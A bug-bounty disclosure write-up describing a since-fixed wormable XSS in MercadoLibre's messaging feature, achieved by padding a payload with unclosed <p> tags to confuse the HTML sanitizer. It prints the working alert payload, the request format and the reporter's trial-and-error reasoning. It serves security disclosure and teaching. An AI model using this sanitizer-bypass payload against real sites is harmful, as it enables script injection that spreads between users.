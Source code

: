 **Public Report:** [https://hackerone.com/reports/1675516](https://hackerone.com/reports/1675516)

## Bypassing the sanitizer: Wormable XSS in MercadoLibre

**Report summary**

The general messaging functionality of www.mercadolibre.com.ar implemented an HTML sanitizer that allowed the use of a limited set of HTML tags while preventing XSS. While analyzing the functionality, @valent1ne discovered that sending multiple unclosed `<p>` tags (`<p><p><p><p><p><p><p><p>`) and appending an extra tag seemed to confuse the sanitizer parser, resulting in unexpected behavior.
This behavior allowed incluiding an extra arbitrary tag, bypassing the sanitizer. For instance, it enabled the appending of an `<audio>` HTML tag at the end of the following payload, which executed JavaScript code:

```html
<p><p><p><p><p><p><p><p><audio/src/onerror=alert(document.domain)>
```

Later, the reporter discovered that the number of unclosed `<p>` tags needed to be increased depending on the size of the appended HTML tag. This adjustment allowed the insertion of an <embed> tag that included external arbitrary HTML/JavaScript code.

After sending the payload, the parsed HTML would look like this:

```html
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p>
 <audio/src/onerror=alert(document.domain)>
</p>
```

Since this vulnerability affected the general messaging functionality of www.mercadolibre.com.ar, it could have been exploited as a wormable XSS, capable of spreading across multiple users.

**Video**

<video controls width="640" height="360" src="https://github.com/user-attachments/assets/d9191288-4749-4d2a-86c5-b095f134995a"></video> \

**Reward**

A few days after sending the report, a reward was sent =)

<img alt="image" src="https://github.com/user-attachments/assets/487bc56e-a2e7-4fb6-b1ec-57b416bab5a4" />

**Discovery**

At first, while testing with buyer/seller accounts to buy/sell products, I knew that when buying a product it would always start a chat so that buyers and sellers could communicate. When making a claim, I quickly saw a request that piqued my curiosity:

```js
POST /<...>

message=%3Cp%3EClaim%20%23123456789%3C%2Fp%3E // Decoded: <p>Claim #123456789</p>
```

I thought, why does it use HTML? Are `<p>` tags in a sort of whitelist?

```html
—-------------  —--------------
|  allowed   |  | disallowed  |
—-------------   —--------------                  
|  <p>        |  |   <img>     |
|  <h1>       |  |     <...>   |
|  <h2>       |  |             |
—-------------   —--------------
```

Then, I tried to execute JS but it was using a sanitizer. That’s when I knew I needed to bypass it, so I started sending every single HTML tag, and noticed something weird.

I thought, how can I hide the disallowed HTML tag? Can I confuse the parser so it can’t see it?

```html
—-----------------      —-----------------
|        <p>      |     |      <p>        |
—----------------- →    —-----------------  
|        <img>    |     |       <img>     |  
—-----------------      —------------------
                        |      </p>       | 
                        —------------------
—-----------------      —-----------------
|        <p>     |     |      <p>         |
—----------------- →    —------------------  
|        <p>     |     |       </p>       |  
—-----------------     —-------------------
|        <img>   |     |      <p>         | 
—-----------------      —------------------
                        |      <img>      |
                        —------------------
                        |      </p>       |
                        —------------------
```
                       
1. When sending `<p><p><img>`, it didn’t remove the `<img>` tag.
2. When just sending `<img>`, it was removed.

After multiple tests, I couldn’t figure out why the sanitizer was working like that. Now I would try to analyze the code to find the root cause, but at that time I didn’t have much experience with that, so I used abstraction and tested based on behavior, until an idea came up: "Balance is key".

A part of my thought process (might be wrong technically)

```html
<p> <p>  <img> → sucess
[3] [3]   [5]
 —------
   [6]
 
<p> <p> <p>    <img/src=x> → error
[3] [3] [3]       [11]
–-—---------     
     [9]

<p> <p> <p> <p> <p>    <img/src=x> → sucess
[3] [3] [3] [3] [3]       [11]
–-—----------------     
        [12]

<p> <p> <p> <p> <p> <p> <p> <p> <p>   <audio/src/onerror=alert()> → sucess
[3] [3] [3] [3] [3] [3] [3] [3] [3]             [27]
–-—---------------------------------     
                 [27]
```

So, the pattern I recognized was something like:

```js
tags = ["<p>", "<p>"]
while (not success):
  tags += "<p>"
```

**Reflection**

After the bug was fixed, they replaced that sanitizer with DOMPurify, so when I wanted to analyze the root cause I couldn’t find what library was used. My thoughts are: probably there was a custom sanitizer that seemed to have a nested node limit that was something like `message length / 2` for some reason. So, you could use `<p> * (message_length/2)` open `<p>` tags, and after that, you could append an `<audio/src/onerror=alert()>` tag that would execute JS. 

After a while, when reflecting about my journey, I think there are many parallelisms in these patterns, and a singular pattern can appear in every bug class. For example, one pattern in this vuln was particularly interesting: 

"There is an allow-list, and wrapping a disallowed object inside an allowed object, bypasses the mitigations."
> That pattern appears in insecure deserializations! \
> Can we transform those singular patterns into generic patterns?
